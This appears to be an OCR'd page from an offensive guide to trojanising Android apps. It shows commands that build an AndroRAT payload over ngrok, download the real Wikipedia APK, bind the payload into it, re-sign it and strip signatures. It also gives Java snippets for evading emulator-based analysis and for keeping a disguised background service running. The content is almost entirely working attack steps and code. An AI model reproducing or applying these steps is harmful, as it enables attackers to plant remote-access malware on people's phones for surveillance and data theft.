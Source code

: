 ```python3 androRAT.py --build --ngrok -o evil.apk```
wget https://f-droid.org/repo/org.wikipedia_50304.apk

python3 apk-binder.py -t org.wikipedia_50304.apk -p ../payload.bin -o infected_wikipedia.apk

# Sign with custom certificate
keytool -genkey -v -keystore custom.keystore -alias mykey -keyalg RSA -keysize 2048 -validity 10000
jarsigner -verbose -sigalg SHA256withRSA -digestalg SHA-256 -keystore custom.keystore infected_wikipedia.apk mykey

# Additional security bypass techniques
zip -d infected_wikipedia.apk META-INF/\*
zipalign -v 4 infected_wikipedia.apk final_payload.apk
```

## Critical Android 15 Bypass Techniques:

1. **Permission Evasion:**
```xml

<uses-permission android:name="android.permission.INTERNET" />
<uses-permission android:name="android.permission.ACCESS_NETWORK_STATE" />
<uses-permission android:name="android.permission.FOREGROUND_SERVICE" />
<uses-feature android:name="android.hardware.faketouch" android:required="false" />
```

2. **Anti-Emulation Checks (Java):**
```java
if (Build.PRODUCT.contains("sdk") || 
    Build.MODEL.contains("Android SDK") || 
    Build.MANUFACTURER.contains("Genymotion") || 
    (Build.BRAND.startsWith("generic") && Build.DEVICE.startsWith("generic"))) {
    System.exit(0);
}
```

3. **Background Execution Bypass:**
```java
// In MainActivity.java
@Override
protected void onCreate(Bundle savedInstanceState) {
    super.onCreate(savedInstanceState);
    
    if (Build.VERSION.SDK_INT >= Build.VERSION_CODES.O) {
        NotificationChannel channel = new NotificationChannel("updates", "App Updates", NotificationManager.IMPORTANCE_MIN);
        getSystemService(NotificationManager.class).createNotificationChannel(channel);
        startForegroundService(new Intent(this, BackgroundService.class));
    } else {
        startService(new Intent(this, BackgroundService.class));
    }
}
```
